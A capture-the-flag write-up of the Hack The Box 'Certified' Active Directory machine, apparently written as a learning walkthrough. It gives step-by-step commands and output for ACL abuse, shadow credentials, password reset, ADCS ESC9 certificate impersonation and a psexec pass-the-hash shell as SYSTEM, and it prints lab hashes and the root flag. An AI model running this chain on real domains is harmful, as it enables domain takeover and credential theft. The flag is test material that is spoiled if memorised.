



First, we start with a broad nmap scan, that reveals the following results :

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo nmap -sV -sC -O -Pn --disable-arp-ping -p- -o Broad-scan-nmap 10.10.11.41

Nmap scan report for 10.10.11.41
Host is up (0.14s latency).
Not shown: 65515 filtered tcp ports (no-response)
PORT      STATE SERVICE       VERSION
53/tcp    open  domain        Simple DNS Plus
88/tcp    open  kerberos-sec  Microsoft Windows Kerberos (server time: 2025-02-23 08:21:35Z)
135/tcp   open  msrpc         Microsoft Windows RPC
139/tcp   open  netbios-ssn   Microsoft Windows netbios-ssn
389/tcp   open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2025-02-23T08:23:13+00:00; +2h49m55s from scanner time.
445/tcp   open  microsoft-ds?
464/tcp   open  kpasswd5?
593/tcp   open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
636/tcp   open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
|_ssl-date: 2025-02-23T08:23:11+00:00; +2h49m55s from scanner time.
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
3268/tcp  open  ldap          Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2025-02-23T08:23:13+00:00; +2h49m55s from scanner time.
3269/tcp  open  ssl/ldap      Microsoft Windows Active Directory LDAP (Domain: certified.htb0., Site: Default-First-Site-Name)
| ssl-cert: Subject: commonName=DC01.certified.htb
| Subject Alternative Name: othername: 1.3.6.1.4.1.311.25.1:<unsupported>, DNS:DC01.certified.htb
| Not valid before: 2024-05-13T15:49:36
|_Not valid after:  2025-05-13T15:49:36
|_ssl-date: 2025-02-23T08:23:11+00:00; +2h49m55s from scanner time.
5985/tcp  open  http          Microsoft HTTPAPI httpd 2.0 (SSDP/UPnP)
|_http-server-header: Microsoft-HTTPAPI/2.0
|_http-title: Not Found
9389/tcp  open  mc-nmf        .NET Message Framing
49666/tcp open  msrpc         Microsoft Windows RPC
49670/tcp open  msrpc         Microsoft Windows RPC
49673/tcp open  ncacn_http    Microsoft Windows RPC over HTTP 1.0
49674/tcp open  msrpc         Microsoft Windows RPC
49683/tcp open  msrpc         Microsoft Windows RPC
49716/tcp open  msrpc         Microsoft Windows RPC
49740/tcp open  msrpc         Microsoft Windows RPC
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running (JUST GUESSING): Microsoft Windows 2019 (89%)
Aggressive OS guesses: Microsoft Windows Server 2019 (89%)
No exact OS matches for host (test conditions non-ideal).
Service Info: Host: DC01; OS: Windows; CPE: cpe:/o:microsoft:windows

Host script results:
| smb2-time: 
|   date: 2025-02-23T08:22:32
|_  start_date: N/A
|_clock-skew: mean: 2h49m54s, deviation: 0s, median: 2h49m54s
| smb2-security-mode: 
|   3:1:1: 
|_    Message signing enabled and required

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sun Feb 23 05:33:18 2025 -- 1 IP address (1 host up) scanned in 388.52 seconds
```

As we can see the LDAP and Kerberos indicates that we are dealing with an Active Directory Server (Domain Controller). 

The provided credentials `judith.mader:judith09` given in the machine information are valid  

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo crackmapexec smb 10.10.11.41 -u judith.mader -p judith09 

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certified.htb\judith.mader:judith09 
```

The above results also shows us that the Domain name is `certified.htb` DC's DNS name is `DC01.certified.htb`, which we will use to populate the `/etc/hosts` file.


I used rpcclient to gather a list of users using `enumdomusers` command that might be useful in further attacks.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ rpcclient -U "judith.mader%judith09" 10.10.11.41

rpcclient $> enumdomusers
user:[Administrator] rid:[0x1f4]
user:[Guest] rid:[0x1f5]
user:[krbtgt] rid:[0x1f6]
user:[judith.mader] rid:[0x44f]
user:[management_svc] rid:[0x451]
user:[ca_operator] rid:[0x452]
user:[alexander.huges] rid:[0x641]
user:[harry.wilson] rid:[0x642]
user:[gregory.cameron] rid:[0x643]
```

I tried to enumerate SMB shares found using CME bellow, but spoiler i couldn't find anything useful in them.

```bash
┌──(ayoub㉿MyKali)-[~]
└─$ sudo crackmapexec smb 10.10.11.41 -d certtified.htb -u judith.mader -p judith09 --shares

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certtified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certtified.htb\judith.mader:judith09 
SMB         10.10.11.41     445    DC01             [+] Enumerated shares
SMB         10.10.11.41     445    DC01             Share           Permissions     Remark
SMB         10.10.11.41     445    DC01             -----           -----------     ------
SMB         10.10.11.41     445    DC01             ADMIN$                          Remote Admin
SMB         10.10.11.41     445    DC01             C$                              Default share
SMB         10.10.11.41     445    DC01             IPC$            READ            Remote IPC
SMB         10.10.11.41     445    DC01             NETLOGON        READ            Logon server share 
SMB         10.10.11.41     445    DC01             SYSVOL          READ            Logon server share 

```


After a bunch of enumeration attempts, i resorted to `Bloodhound` using the provided credentials to try visualize and see if there are some attack paths that we could take advantage of.

```bash
bloodhound-python -d certified.htb -u 'judith.mader' -p 'judith09' -dc 'dc01.certified.htb' -c all -ns 10.10.11.41
```

I searched the user `judith.mader` and i used the `Transitive Objective Control` build-in query under `OUTBOUND OBJECT CONTROL` , which gave me this attack path.




So we will proceed as follow :  **Abuse `WriteOwner`ACL to add `judith.mader` to the `Management` Group > Abuse the `GenericWrite` ACL using Shadow Credentials on the `management_svc` service account.**

- First, we will make `judith.mader` the owner of the `Management` Group using `impacket-owneredit`

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo impacket-owneredit -action write -new-owner judith.mader -target MANAGEMENT certified.htb/judith.mader:judith09

/usr/share/doc/python3-impacket/examples/owneredit.py:87: SyntaxWarning: invalid escape sequence '\V'
  'S-1-5-83-0': 'NT VIRTUAL MACHINE\Virtual Machines',
/usr/share/doc/python3-impacket/examples/owneredit.py:96: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-554': 'BUILTIN\Pre-Windows 2000 Compatible Access',

<SNIP>

[*] Current owner information below
[*] - SID: S-1-5-21-729746778-2675978091-3820388244-1103
[*] - sAMAccountName: judith.mader
[*] - distinguishedName: CN=Judith Mader,CN=Users,DC=certified,DC=htb
[*] OwnerSid modified successfully!
```

- Then i made `judith.mader` have write rights on the `management` group object using `impacket-dacledit`.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo impacket-dacledit -action 'write' -rights 'WriteMembers' -principal 'judith.mader' -target-dn 'CN=MANAGEMENT,CN=USERS,DC=CERTIFIED,DC=HTB' certified.htb/judith.mader:judith09

/usr/share/doc/python3-impacket/examples/dacledit.py:101: SyntaxWarning: invalid escape sequence '\V'
  'S-1-5-83-0': 'NT VIRTUAL MACHINE\Virtual Machines',
/usr/share/doc/python3-impacket/examples/dacledit.py:110: SyntaxWarning: invalid escape sequence '\P'
  'S-1-5-32-554': 'BUILTIN\Pre-Windows 2000 Compatible Access',


<SNIP>


/usr/share/doc/python3-impacket/examples/dacledit.py:127: SyntaxWarning: invalid escape sequence '\R'
  'S-1-5-32-580': 'BUILTIN\Remote Management Users',
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] DACL backed up to dacledit-20250316-063639.bak
[*] DACL modified successfully!
```

- Added `judith.mader` to the `Management` Group using `net`  to have `GenericWrite` on the `management_svc` service account.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo net rpc group addmem "management" "judith.mader" -U "CERTIFIED.HTB"/"judith.mader"%"judith09" -S "certified.htb"
```

Let's now verify, and as it seems we successfully added `judith.mader` to the `Management` Group.

```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo net rpc group members "management" -U "certified.htb"/"judith.mader"%"judith09" -S "certified.htb"

CERTIFIED\judith.mader
CERTIFIED\management_svc
```

Since we have now `GenericWrite` on the `management_svc`, it means we can write to `management_svc` attributes, and in this case we will add `Shadow Credentials` using `pywhisker`


```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo ntpdate 10.10.11.41
2025-03-16 14:06:42.045696 (+0100) +25201.170780 +/- 0.112729 10.10.11.41 s1 no-leap
CLOCK: time stepped by 25201.170780
``` 


```bash
┌──(ayoub㉿MyKali)-[~/Documents/HTB/Certified]
└─$ sudo python3 /opt/pywhisker/pywhisker/pywhisker.py -d certified.htb -u judith.mader -p judith09 --target management_svc --action add

[*] Searching for the target account
[*] Target user found: CN=management service,CN=Users,DC=certified,DC=htb
[*] Generating certificate
[*] Certificate generated
[*] Generating KeyCredential
[*] KeyCredential generated with DeviceID: e1b61581-2594-8f88-7648-fc95f608a217
[*] Updating the msDS-KeyCredentialLink attribute of management_svc
[+] Updated the msDS-KeyCredentialLink attribute of the target object
[+] Saved PFX (#PKCS12) certificate & key at path: Isqd14EX.pfx
[*] Must be used with password: 4PFfbzix0hFHbvg6bdVk
[*] A TGT can now be obtained with https://github.com/dirkjanm/PKINITtools
```

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ python3 /opt/PKINITtools/gettgtpkinit.py -cert-pfx cj0VvoOI.pfx -pfx-pass 'kcOHYv0aB6Y4fP4wLW9N' certified.htb/management_svc target.ccache

2025-03-16 14:53:03,659 minikerberos INFO     Loading certificate and key from file
INFO:minikerberos:Loading certificate and key from file
2025-03-16 14:53:03,687 minikerberos INFO     Requesting TGT
INFO:minikerberos:Requesting TGT
2025-03-16 14:53:28,432 minikerberos INFO     AS-REP encryption key (you might need this later):
INFO:minikerberos:AS-REP encryption key (you might need this later):
2025-03-16 14:53:28,434 minikerberos INFO     31b6807ee1f84d89eb97b499d7d04fc9ee5d5ce18102b064f3816b994cdb3206
INFO:minikerberos:31b6807ee1f84d89eb97b499d7d04fc9ee5d5ce18102b064f3816b994cdb3206
2025-03-16 14:53:28,447 minikerberos INFO     Saved TGT to file
INFO:minikerberos:Saved TGT to file
```

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ export KRB5CCNAME=target.ccache 
```

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ python3 /opt/PKINITtools/getnthash.py -key 31b6807ee1f84d89eb97b499d7d04fc9ee5d5ce18102b064f3816b994cdb3206 certified.htb/management_svc

Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Using TGT from cache
[*] Requesting ticket to self with PAC
Recovered NT Hash
a091c1832bcdd4677c28b5a6a1295584
```


The `First Degree Object Conctrol` under the Node Info of `management_svc` showed us that we have `GenericAll` on the `ca_operator`  object.



Having `GenericAll` on that object means we have complete control over it, so we can change this account's password and take control of it (even not recommended in a real life engagement).

For that we will use `BloodyAD` to do that!

```bash
┌──(ayoub㉿MyKali)-[~]
└─$ bloodyAD -d certified.htb -u management_svc -p :a091c1832bcdd4677c28b5a6a1295584 --host 10.10.11.41 set password ca_operator 'S3cur3P@ssw0rd!'

[+] Password changed successfully!
```

And i've done it right

```bash
┌──(ayoub㉿MyKali)-[~]
└─$ sudo crackmapexec smb 10.10.11.41 -d certtified.htb -u ca_operator -p S3cur3P@ssw0rd!

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certtified.htb) (signing:True) (SMBv1:False)
SMB         10.10.11.41     445    DC01             [+] certtified.htb\ca_operator:S3cur3P@ssw0rd! 
```

Now i used `Bloodhound` and tried to see if there are any interesting edges for this user but unfortunately without any results.

As the name of the account, i thought maybe this is a Certificate Authority, and `netexec` is always handy to me when it comes to identifying `ADCS`.

```bash
┌──(ayoub㉿MyKali)-[~]
└─$ sudo netexec ldap 10.10.11.41 -d certtified.htb -u ca_operator -p S3cur3P@ssw0rd! -M adcs

SMB         10.10.11.41     445    DC01             [*] Windows 10 / Server 2019 Build 17763 x64 (name:DC01) (domain:certified.htb) (signing:True) (SMBv1:False)
LDAP        10.10.11.41     389    DC01             [+] certtified.htb\ca_operator:S3cur3P@ssw0rd! 
ADCS        10.10.11.41     389    DC01             [*] Starting LDAP search with search filter '(objectClass=pKIEnrollmentService)'
ADCS        10.10.11.41     389    DC01             Found PKI Enrollment Server: DC01.certified.htb
ADCS        10.10.11.41     389    DC01             Found CN: certified-DC01-CA
```

Now i will use `certipy-ad` to gather information about Certificate Authority.

```bash
┌──(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ certipy-ad find -u ca_operator -p S3cur3P@ssw0rd! -dc-ip 10.10.11.41
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Finding certificate templates
[*] Found 34 certificate templates
[*] Finding certificate authorities
[*] Found 1 certificate authority
[*] Found 12 enabled certificate templates
[*] Trying to get CA configuration for 'certified-DC01-CA' via CSRA
[!] Got error while trying to get CA configuration for 'certified-DC01-CA' via CSRA: CASessionError: code: 0x80070005 - E_ACCESSDENIED - General access denied error.
[*] Trying to get CA configuration for 'certified-DC01-CA' via RRP
[*] Got CA configuration for 'certified-DC01-CA'
[*] Saved BloodHound data to '20250316160850_Certipy.zip'. Drag and drop the file into the BloodHound GUI from @ly4k
[*] Saved text output to '20250316160850_Certipy.txt'
[*] Saved JSON output to '20250316160850_Certipy.json'
```

As we can see from the results provided by `certipy-ad`  we can see there is an `ESC9` Vulnerability which will allow us to enroll certain Certificate Template, it means we can request certificates that allow us to impersonate other users. Including _Domain Admins_. 

```bash
┌──(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ cat 20250316160850_Certipy.txt            
Certificate Authorities
  0
    CA Name                             : certified-DC01-CA
    DNS Name                            : DC01.certified.htb
    Certificate Subject                 : CN=certified-DC01-CA, DC=certified, DC=htb
    Certificate Serial Number           : 36472F2C180FBB9B4983AD4D60CD5A9D
    Certificate Validity Start          : 2024-05-13 15:33:41+00:00
    Certificate Validity End            : 2124-05-13 15:43:41+00:00
    Web Enrollment                      : Disabled
    User Specified SAN                  : Disabled
    Request Disposition                 : Issue
    Enforce Encryption for Requests     : Enabled
    Permissions
      Owner                             : CERTIFIED.HTB\Administrators
      Access Rights
        ManageCertificates              : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        ManageCa                        : CERTIFIED.HTB\Administrators
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
        Enroll                          : CERTIFIED.HTB\Authenticated Users
Certificate Templates
  0
    Template Name                       : CertifiedAuthentication
    Display Name                        : Certified Authentication
    Certificate Authorities             : certified-DC01-CA
    Enabled                             : True
    Client Authentication               : True
    Enrollment Agent                    : False
    Any Purpose                         : False
    Enrollee Supplies Subject           : False
    Certificate Name Flag               : SubjectRequireDirectoryPath
                                          SubjectAltRequireUpn
    Enrollment Flag                     : NoSecurityExtension
                                          AutoEnrollment
                                          PublishToDs
    Private Key Flag                    : 16842752
    Extended Key Usage                  : Server Authentication
                                          Client Authentication
    Requires Manager Approval           : False
    Requires Key Archival               : False
    Authorized Signatures Required      : 0
    Validity Period                     : 1000 years
    Renewal Period                      : 6 weeks
    Minimum RSA Key Length              : 2048
    Permissions
      Enrollment Permissions
        Enrollment Rights               : CERTIFIED.HTB\operator ca
                                          CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
      Object Control Permissions
        Owner                           : CERTIFIED.HTB\Administrator
        Write Owner Principals          : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Dacl Principals           : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
        Write Property Principals       : CERTIFIED.HTB\Domain Admins
                                          CERTIFIED.HTB\Enterprise Admins
                                          CERTIFIED.HTB\Administrator
    [!] Vulnerabilities
      ESC9                              : 'CERTIFIED.HTB\\operator ca' can enroll and template has no security extension
```


This [Blog](https://research.ifcr.dk/certipy-4-0-esc9-esc10-bloodhound-gui-new-authentication-and-request-methods-and-more-7237d88061f7) guided me through that, and as it said the Requisites is `GenericWrite` over any account A to compromise any account B.

To perform this attack we will need the password hash of the `ca_operator` which is below (I used this [Website](https://codebeautify.org/ntlm-hash-generator) to hash the password `S3cur3P@ssw0rd!`)

```
D5915E565671E06FD6D67A460D59583E
```

Next, we change the `userPrincipalName` of `ca_operator` to be `Administrator`.

```bash
┌──(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ sudo certipy-ad account update -username management_svc@certified.htb -hashes  a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn administrator      
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : administrator
[*] Successfully updated 'ca_operator'
```

Now, we request the vulnerable certificate template `CertifiedAuthentication`. We must request the certificate as `ca_operator`.

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ sudo certipy-ad req -username ca_operator@certified.htb -hashes D5915E565671E06FD6D67A460D59583E -ca certified-DC01-CA -template CertifiedAuthentication -debug
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[+] Trying to resolve 'CERTIFIED.HTB' at '192.168.1.254'
[+] Resolved 'CERTIFIED.HTB' from cache: 10.10.11.41
[+] Generating RSA key
[*] Requesting certificate via RPC
[+] Trying to connect to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[+] Connected to endpoint: ncacn_np:10.10.11.41[\pipe\cert]
[*] Successfully requested certificate
[*] Request ID is 5
[*] Got certificate with UPN 'administrator'
[*] Certificate has no object SID
[*] Saved certificate and private key to 'administrator.pfx'
```

That gave us a `administrator.pfx` certificate, which can be used to authenticate to the Domain Controller as Administrator.

We must then change the `ca_operator` back to its original `UPN`.

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ certipy-ad account update -username management_svc@certified.htb -hashes a091c1832bcdd4677c28b5a6a1295584 -user ca_operator -upn ca_operator@certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Updating user 'ca_operator':
    userPrincipalName                   : ca_operator@certified.htb
[*] Successfully updated 'ca_operator'
```

Let's now get the `Administrator`'s TGT and his NTLM hash 

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ sudo ntpdate 10.10.11.41
2025-03-17 03:05:40.599937 (+0100) +35785.588485 +/- 0.074389 10.10.11.41 s1 no-leap
CLOCK: time stepped by 35785.588485


┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ certipy-ad auth -pfx administrator.pfx -domain certified.htb
Certipy v4.8.2 - by Oliver Lyak (ly4k)

[*] Using principal: administrator@certified.htb
[*] Trying to get TGT...
[*] Got TGT
[*] Saved credential cache to 'administrator.ccache'
[*] Trying to retrieve NT hash for 'administrator'
[*] Got hash for 'administrator@certified.htb': aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
```

Finally, I used `psexec.py` to get a shell as the `Administrtaor` user.

```bash
┌──(.venv)─(ayoub㉿MyKali)-[~/…/HTB/Certified/CA/C!]
└─$ psexec.py 'certified.htb/Administrator@10.10.11.41' -hashes aad3b435b51404eeaad3b435b51404ee:0d5b49608bbce1751f708748f67e2d34
Impacket v0.12.0 - Copyright Fortra, LLC and its affiliated companies 

[*] Requesting shares on 10.10.11.41.....
[*] Found writable share ADMIN$
[*] Uploading file fVKmJzkE.exe
[*] Opening SVCManager on 10.10.11.41.....
[*] Creating service bRER on 10.10.11.41.....
[*] Starting service bRER.....
[!] Press help for extra shell commands
Microsoft Windows [Version 10.0.17763.6414]
(c) 2018 Microsoft Corporation. All rights reserved.

C:\Windows\system32> whoami
nt authority\system

C:\Windows\system32> cd C:\Users\Administrator\Desktop

C:\Users\Administrator\Desktop> dir
 Volume in drive C has no label.
 Volume Serial Number is EA74-A0A7

 Directory of C:\Users\Administrator\Desktop

10/22/2024  01:15 PM    <DIR>          .
10/22/2024  01:15 PM    <DIR>          ..
03/16/2025  07:42 PM                34 root.txt
               1 File(s)             34 bytes
               2 Dir(s)   5,238,980,608 bytes free

C:\Users\Administrator\Desktop> type root.txt
fbb7b2015f20279c3bccc2794b2c5ec0

```
